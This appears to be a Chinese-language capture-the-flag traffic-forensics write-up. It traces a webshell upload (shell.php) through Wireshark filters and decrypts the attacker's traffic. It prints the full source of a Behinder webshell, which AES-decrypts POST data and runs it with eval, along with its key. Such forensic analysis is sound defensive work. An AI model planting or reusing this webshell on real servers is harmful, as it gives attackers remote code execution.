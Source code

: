 发现写入了shell.php



```
http.request.uri contains "shell.php"
```

查看POST的包，解test的base



```php
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

得到了key=e45e329feb5d925b，以及加密模式为AES128，是冰蝎的shell，[在线解密网站](http://tools.bugscaner.com/cryptoaes/?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJleHAiOjE2OTg1OTAzNDAsImZpbGVHVUlEIjoiZ1hxbWRWdmJPRXNYcG8zbyIsImlhdCI6MTY5ODU5MDA0MCwiaXNzIjoidXBsb2FkZXJfYWNjZXNzX3Jlc291cmNlIiwidXNlcklkIjotODM0NzE2NjYyNn0.FiF22NglSGh-YrqI99k7Gdgz9nKdESMOzBcca_dUSko)

先把所有1.php的响应流量过滤出来，导出特定分组另存为



```
http.response_for.uri contains "/1.php"
```

在tcp.stream eq 19得到用户名：www-data
